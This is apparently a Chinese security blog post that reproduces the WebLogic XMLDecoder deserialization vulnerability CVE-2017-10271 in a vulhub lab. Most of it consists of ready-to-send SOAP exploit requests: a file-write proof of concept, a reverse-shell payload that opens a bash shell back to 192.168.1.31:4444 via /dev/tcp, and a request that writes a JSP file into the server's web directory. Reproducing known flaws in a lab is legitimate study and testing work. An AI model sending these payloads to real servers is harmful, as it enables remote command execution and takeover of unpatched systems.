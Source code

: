 ```yaml
---
layout:     post
title:      【漏洞复现】WebLogic XMLDecoder反序列化漏洞复现与分析（CVE-2017-10271）
subtitle:   反序列化漏洞
date:       2020-10-16
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 
---
```


## 0x00 漏洞说明
Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。
## 0x01 影响版本
10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0
## 0x02 漏洞环境
/home/matrix/vulhub/weblogic/CVE-2017-10271
## 0x03 漏洞复现
访问 http://192.168.8.148:7001/wls-wsat/CoordinatorPortType11 存在下图可能存在漏洞
![-c1626](/img/16027833684673.jpg)
构造post包进行测试
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.111.130:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 756

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.6.0" class="java.beans.XMLDecoder">
<object class="java.io.PrintWriter"> 
<string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string>
<void method="println">
<string>xmldecoder_vul_test</string></void><void method="close"/>
</object>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
![-c1171](/img/16027833815489.jpg)
访问创建的文件目录，发现命令成功执行。
![-c797](/img/16027833918820.jpg)

### 反弹shell payload
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.1.31/4444 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

### 写入webshell
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.15:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
